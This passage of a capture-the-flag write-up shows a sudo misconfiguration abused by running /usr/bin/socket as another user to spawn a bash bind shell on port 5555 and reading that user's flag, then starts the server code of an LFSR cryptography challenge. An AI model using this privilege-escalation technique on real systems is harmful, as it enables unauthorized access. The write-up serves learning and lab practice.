 Upon connecting, we can see that we are `user` and do not have access to the home directory of `privilegeduser`, which contains the flag.

```bash
    user@sudoklu:~$ sudo -l
    Matching Defaults entries for user on sudoklu:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
        use_pty

    User user may run the following commands on sudoklu:
        (privilegeduser) NOPASSWD: /usr/bin/socket
```

The challenge hints at the sudo command exploit. Looking at the sudo permissions for the current user, shows that `user` can execute `/usr/bin/socket` as the `privilegeduser` without supplying the password. Looking at the command `socket` shows that we can run a program that can accept take the input/output from the socket. 

```bash
    user@sudoklu:~$ /usr/bin/socket -h
    /usr/bin/socket: invalid option -- 'h'
    Usage: socket [-bclqrvw] [-B local ip] [-p prog] {{-s|host} port | [-s] /path}
```

We will use the sudo command to run the `/usr/bin/socket` command to spawn a shell and listen on a given port. I put that task in the background.  Next, we can connect to this shell via the socket and interact. We can see that we now are operating in a shell with the identity of `privilegeduser`, and can just `cat` the flag.

```bash
    user@sudoklu:~$ sudo -u privilegeduser /usr/bin/socket -p bash  5555 -s &
    [1] 48


    user@sudoklu:~$ nc localhost 5555
    id
    uid=1001(privilegeduser) gid=1001(privilegeduser) groups=1001(privilegeduser)
    cat /home/privilegeduser/flag.txt
    Hero{ch3ck_f0r_m1sc0nf1gur4t1on5}
```

## After the CTF

I was stuck on these challenges during the competition. I have captured these solutions and my analysis for future reference. 

#### Futile
`Linear Futile Shift Register`

This challenge was full of red herrings. We are given a challenge server, that runs the following program:

```python
    #!/usr/bin/env python
    from pylfsr import LFSR
    from functools import reduce
    import os

    flag = os.environ.get('FLAG','Hero{fake_flag}').encode()

    # converts a binary list into a integer .. equivalent of int(''.join(l), 2)
    def binl2int(l: list) -> int:
        return reduce(lambda x,y: 2*x+y, l)
    # Returns an instance of LFSR.
    # The order is 8, so the initial state consists of 8 bits, chosen randomly
    def lfsr() -> LFSR:
        return LFSR(fpoly=[8,6,5,4], initstate='random')
```